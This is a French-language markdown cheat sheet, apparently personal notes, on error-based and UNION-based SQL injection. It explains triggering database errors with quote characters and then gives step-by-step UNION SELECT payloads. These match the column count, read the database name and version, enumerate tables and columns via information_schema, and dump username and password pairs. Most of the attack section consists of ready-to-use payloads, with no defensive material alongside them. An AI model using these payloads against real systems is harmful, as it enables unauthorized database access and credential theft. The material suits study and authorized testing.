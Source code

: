 Ce type d'injection SQL est le plus utile pour obtenir facilement des informations sur la structure de la base de données car les messages d'erreur de la base de données sont imprimés directement sur l'écran du navigateur.

---
# Rechercher
La clé pour découvrir l'injection SQL basée sur les erreurs est de: 
- Casser la requête SQL du code en essayant certains caractères jusqu'à ce qu'un message d'erreur soit produit ; il s'agit le plus souvent d'un simples (`'`) ou de guillemets (`"`)

> [!NOTE] Le fait de recevoir un message d'erreur confirme l'existence d'une vulnérabilité SQL Injection

---
###### Injection sur UNION
Ce type d'injection utilise l'opérateur SQL UNION avec une instruction SELECT pour renvoyer des résultats supplémentaires à la page.



**1 - Renvoyer les données au navigateur sans afficher de message d'erreur.**

```sql
?id=0 UNION SELECT 1
```

Cette instruction produit un message d'erreur vous informant que _l'instruction UNION SELECT a un nombre de colonnes différent de celui de la requête SELECT d'origine._ 

Essayons mais ajoutons une autre colonne jusqu'a le message d'erreur disparais:

```sql
?id=1 UNION SELECT 1,2,...
```


**2 - Afficher nos données**
Cela peut simplement être fait en changeant l'identifiant de l'article de `1 à 0`

```sql
?id=0 UNION SELECT 1,2,...
```

Maintenant l'article est simplement composé du résultat de la sélection UNION

**3 - Récupérer des informations plus utiles.**
On peut remplacer 1 par `null`

```sql
-- Obtenir le nom de la base de données:
0 UNION SELECT 1,2,database()

-- Affiche la version du serveur
0 UNION SELECT null, version()
```

Lister des tables qui se trouvent dans cette base de données:

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '{db_name}'

-- ou 

0 UNION SELECT null,table_name FROM INFORMATION_SCHEMA.tables
```

Trouver la structure des tables (colones):

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '{db_table_name}'

-- ou 

0 UNION SELECT null,column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='{db_table_name}'
```

Récupérer les informations:

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM {db_table_name}

-- ou 

0 UNION SELECT null, concat(user,0x0a,password) FROM {db_table_name}
```
